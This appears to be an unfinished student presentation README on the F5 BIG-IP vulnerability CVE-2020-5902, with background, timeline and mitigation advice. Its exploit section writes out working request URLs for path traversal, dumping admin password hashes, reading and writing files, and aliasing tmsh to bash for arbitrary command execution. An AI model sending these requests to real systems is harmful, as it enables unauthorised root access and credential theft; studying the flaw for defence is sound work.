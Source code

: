 # CVE 2020-5902

![alt text](https://www.zdnet.com/a/hub/i/2020/07/03/b6c96e0e-7da9-461a-adff-d6009723189a/f5-networks.jpg "F5 Networks Logo")

_Presented by: Tharmiga Loganathan, Manavjot Singh, Mili Choksi_

**Vulnerability Highlights:**

CVSS 3.x: 9.8 (Critical)

CVSS 2.0: 10.0 (High)

_The CVE 2020-5902 vulnerability impacted F5 Network's suite of load-balancing software products called BIG-IP last July. It is a code injection attack that can give hackers root level privileges to vulnerable systems! According to Shodan, there were 8,000 exposed devices at one point with an estimated 2,000 of those devices actually vulnerable to this exploit._

> **What is Shodan?**
> At first look, Shodan can be used to search devices connected to the Internet according to different filters. However, in more negative use-cases, it can be used streamline the process of searching for vulnerable devices.

**Outline:**

* Intro, scale
* What is BIGIP - load balancer
* The exploit
* Create alias explanation
* How to check if you are vulnerable
* Mitigation
* Could still be impacted, use resource integrity!... explain
* So this is a story on why it's important to secure your permissions, and stay up to date on big vulnerabilities that come out!
  

## What is BIG-IP? + Why Should I Care?

BIG-IP is a family of software and hardware solutions from F5 Networks. While it originally started out as a load balancer, it has now expanded to offer complimentary services such as traffic management, access control, security and optimization. Load balancers work by providing a virtual IP on behalf of numerous other devices. This is a service that allows large scale applications to seamlessly serve its customers without a bottleneck. 

This exploit is particularly impactful because it can not only impact the load balancing server itself but also any device that is behind the load balancer. 
  
Moreover, even if you aren't running an F5 BIG-IP device, but have some external link to a javascript library included in your application, your application may also be exposed! If the resource happens to be behind a BIG-IP load balancer that is vulnerable, your application can also be exploited. Using subresource integrity can help make you immune to this sort of vulnerability and it is also best practice when it comes to including external libraries in your application, more on this will be discussed later in the reprot. This highlights the importance of staying on top of cybersecurity news and taking all precautions posisble when building your application!

## CVE Timeline

There has been a rise in the number of vulnerabilities among similar software products around the time this vulnerability came out. The very day the exploit got out, F5 Networks has created many articles, videos, and Q&A sessions designed to help its customers keep their systems safe. But it didn't take long for **many** proof of concept code snippets to pop up on GitHub.

![alt text](https://www.tenable.com/sites/drupal.dmz.tenablesecurity.com/files/images/blog/PoC%20scripts%20published%20to%20GitHub.png "GitHub Exploit Code")

Let's dive right into the exploit now!

## The Exploit

This code injection vulnerability impacts the TMUI (configuration utility for the BIG-IP) and can allow unauthenicated users to execute system commands, create or delete files, disable services or execute Java code. The TMUI is a web application that is installed within the device that provides an admin interface. The following is the vulnerable URL:
```
https://[hostname]/tmui/login.jsp
```
The exploit is a "..;" following the above URL. The URL below is an example of an exploitable URL that will return a list of all of the admin users along with their password hashes:
```
https://[hostname]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=list+auth+user+admin
```

> **The Three Most Common Exploits**
> 
> Execute Command (only allows for tmsh commands):
> ```
> /tmui/locallb/workspace/tmshCmd.jsp
> ```
> 
> Read Files:
> ```
> /tmui/locallb/workspace/fileRead.jsp
> ```
> 
> Write Files:
> ```
> /tmui/locallb/workspace/fileSave.jsp
> ```

While the above execute command can only access tmsh commands, you can use "create alias" to allow execution of any bash command! "Create alias" can be used to link the tmsh "list" command to the "bash" command. The following is what the command will look like:

```
https://[hostname]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=create+cli+alias+private+list+command+bash
```

Once the alias is created, more requests can be sent in the same manner in subsequent requests containing any bash commands the user would like to execute, the word "bash" in the command must simply be replaced with "list". 

Alternatively, instead of continually executing one line bash commands, you may want to have a whole script execute. You can save and execute a bash script on the server. First, you can save the script like so:

```
fileSave.jsp?fileName=/tmp/cmd&content=id
```

Second, execute the script like so (remember "list" actually means "bash":

```
tmshCmd.jsp?command=list+/tmp/cmd
```

Finally, in order to delete the alias and clean up:

```
https://[hostname]/tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=create+cli+alias+private+list
```


## Detecting Exploits 

Test to see if you are vulnerable
```
https://[hostname]/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/f5-release
```
[check logs]

## Mitigation

Check if you are vulnerable: code 
Check logs to see if you have been exploited
Never expose admin interface to the public
  F5 has said multiple times not to do this
  But if you did anyway, you are vulnerable

• update software
• ensure mgmt port is not publically accessible
• lock down self ip ports "allow none"
• var/log to see if it has been breached

## What now?

[content]

## Resources

https://www.tenable.com/blog/cve-2020-5902-critical-vulnerability-in-f5-big-ip-traffic-management-user-interface-tmui
BIG IP
https://www.youtube.com/watch?v=D6J_j7HdkV8&ab_channel=F5DevCentral 
Self IP
https://www.youtube.com/watch?v=ZeDP6D7fEwM&ab_channel=SteveLyons
The basics of the exploit
https://www.youtube.com/watch?v=hS8ptpsmgJE&ab_channel=F5DevCentral
the exploit - SANS
https://www.youtube.com/watch?v=NmZFwE537Zg&ab_channel=SANSInstitute

